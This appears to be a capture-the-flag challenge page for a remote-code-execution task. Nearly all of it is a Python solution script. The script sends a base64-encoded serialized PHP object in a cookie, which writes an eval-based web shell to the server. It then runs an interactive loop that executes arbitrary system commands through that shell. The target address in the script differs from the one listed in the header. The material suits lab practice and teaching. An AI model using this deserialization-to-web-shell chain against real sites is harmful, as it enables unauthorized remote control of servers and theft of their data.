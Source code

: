 #### Goals
 * RCE and try to find the flag

#### Server Address
 * http://web.sniperoj.com:10011/

#### Solution
```python
#!/usr/bin/env python

import requests

print "[+] Writing shell to target site..."
url = "http://web2.sniperoj.cn:10007/"
webshell = "http://web2.sniperoj.cn:10007/img/shell.php"

session = requests.Session()

cookies = {
    "drawing":"Tzo2OiJMb2dnZXIiOjM6e3M6MTU6IgBMb2dnZXIAbG9nRmlsZSI7czoyNzoiL3Zhci93d3cvaHRtbC9pbWcvc2hlbGwucGhwIjtzOjE1OiIATG9nZ2VyAGluaXRNc2ciO3M6MjQ6Ijw/cGhwIGV2YWwoJF9QT1NUW2NdKTs/PiI7czoxNToiAExvZ2dlcgBleGl0TXNnIjtzOjI0OiI8P3BocCBldmFsKCRfUE9TVFtjXSk7Pz4iO30=",
}

response = session.get(url, cookies=cookies)

if response.status_code == 500: # ??? Why 500 ???
    print "[+] Web shell uploaded!"
else:
    print "[-] Failed!"
    exit(1)

print "[+] Entering Interactive mode..."

while True:
    command = raw_input("[+] Please input your command : ")
    if command.lower() == "exit":
        break
    data = {
        'c':"system('%s');" % (command),
    }
    response = requests.post(webshell, data = data)
    print "[+] Ok! Result : "
    print response.content
```

#### Writeups
 * [Offical Writeup]()
 * [Other Writeup]()

